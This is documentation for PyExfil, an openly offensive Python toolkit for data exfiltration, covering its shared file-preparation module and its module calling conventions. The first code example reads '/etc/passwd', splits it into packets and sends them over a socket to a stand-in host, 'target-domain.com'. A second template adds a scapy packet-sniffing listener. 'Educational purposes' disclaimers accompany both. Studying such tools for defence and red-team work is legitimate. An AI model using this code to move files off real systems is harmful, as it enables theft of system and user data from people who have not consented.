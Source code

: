 # Documentation | PyExfil

PyExfil aims to provide a versatile yet straightforward framework for data exfiltration using various methods while striving for minimal dependencies. This documentation outlines the core functionalities, shared modules, and proper usage guidelines to facilitate both contributions to the project and its ethical use.


## Introduction
PyExfil is designed with modularity and ease of use in mind, focusing on standalone modules to support a wide range of exfiltration techniques. By maintaining minimal dependencies, PyExfil ensures compatibility across different environments and ease of conversion to static binaries for multiple operating systems.

## `zlib` known issue
- `zlib` is required for compression and decompression of data. However, it is not a part of a python package but ratther a part of the standard library. This means that it is not available on all systems by default. If you encounter an error related to `zlib`, please ensure that it is installed on your system. 
- You can install it using your package manager (e.g., `apt-get install zlib1g-dev` on Debian-based systems).
- On MacOS, you can install it using Homebrew with the command `brew install zlib`.

### Shared Abilities
Central to PyExfil is the ability to prepare data for exfiltration efficiently. This functionality is encapsulated in the `pyexfil/includes/prepare` module, which offers methods for file compression, encryption, encoding, and splitting into manageable packets.

Please notice that although we have tried to keep this a collection of relatively separated stand alone modules so that converting them to static binaries for various operating systems would be as easy as possible, some things we have decided to turn into modules that would be shared across the board while attempting to keep is as depency free as possible. Such a component for now is `pyexfil/includes/prepare`. This module contains the methods of converting files (compressing, encrypting, encoding and splitting) into chunks ready to be sent or decoded.

You can use it in the following way:

```python
import socket
from pyexfil.includes.prepare import PrepFile, RebuildFile, DecodePacket

# Preparing the file
proc = PrepFile('/etc/passwd', kind='binary')  # Yields a dictionary of packets

# Initiating socket connection and sending data
sock = socket.socket()
sock.connect(('target-domain.com', 443))  # Replace with your actual target
for packet in proc['Packets']:
    sock.send(packet)
sock.close()

# Rebuilding the data from packets
conjoint = [DecodePacket(packet) for packet in proc['Packets']]

# Verify and rebuild the file
print(RebuildFile(conjoint))
```
**Note**: Ensure the use of secure and legal endpoints for data exfiltration. The example provided is for educational purposes only.


### Calling Convention
To facilitate ease of use and consistency across modules, PyExfil adopts a standardized calling convention:

In theory we wish each module to have a convention call to make it easier to work with. Some methods make it easier while some make it more difficult. For that, here is a template on how we wish for it to be. Please bear in mind some modules will not fall into place. Use your best judgment.

1. Preparing file/data for exfiltration should be done as in [this section]("#shared-abilities").
2. Place the package folder under the right location. For example; short communication (C&C) under `Comm`, exfiltration over network communication under `network` etc.
3. Create an `__init__.py` under that folder.
4. For broadcasting purposes use the function name `Send` that will wrap everything up.
5. For receiving purposes use `Broker` function to contain the function. If possible, set it up in a threading mode as to return back.
6. * if possible add a call back function for when data arrives.

Here's an `__ini__.py` example file:

```python
from scapy.all import sniff
from pyexfil.includes.prepare import PrepFile

def _send_packet(host, port, data, counter):
    # Efficient way to handle string formatting and file operations
    with open('/dev/null', 'w') as f:
        f.write(f"{data}{counter}")

def _testCallBack(pkt):
    # Example callback function for packet reception
    print(f"Received a packet! Length: {len(pkt)}")

def Send(fname, password, host, port):
    # Example function to prepare and send data
    proc = PrepFile(fname, kind='binary', enc_key=password, max_size=1024)
    for i, p in enumerate(proc['Packets']):
        _send_packet(host, port, p, i)
    return True

class Broker:
    def __init__(self, key, retFunc=_testCallBack):
        self.key = key
        self.callBack = retFunc

    def _parse(self, pkt):
        # Replace with actual packet validation and processing logic
        if pkt == 'A Good Boy':
            self.callBack(pkt)
        else:
            pass

    def Listen(self):
        # Adjust filter according to the specific use case
        sniff(prn=self._parse, filter='ip', store=0)
```

There are also a few "ready made functions" that we found useful on several scenarios that can be found in the `general.py`, `image_manipulation.py` and `encryption_wrappers.py`. Have a look at them before reimplementing some of these.

### Additional Resources
PyExfil includes several ready-made functions found in `general.py`, `image_manipulation.py`, and `encryption_wrappers.py`. These are intended to simplify common tasks and should be reviewed before developing new functionalities.

### Exceptions

`PyExfil` holds ability to raise custom exceptions. These exceptions appear in `pyexfil/includes/exceptions.py`

## Security Considerations
Given the sensitive nature of data exfiltration, users are urged to adhere to strict security practices, including secure key management and the use of robust encryption. Always ensure ethical use under applicable laws and regulations.

## Contributions
Contributions to PyExfil are welcome. Please follow the project's contribution guidelines to ensure a smooth collaboration process.

# Legal and Ethical Use
PyExfil is provided for educational and research purposes. Users must ensure all activities conducted with PyExfil comply with applicable laws and ethical guidelines. The developers disclaim any liability for misuse or illegal activities.





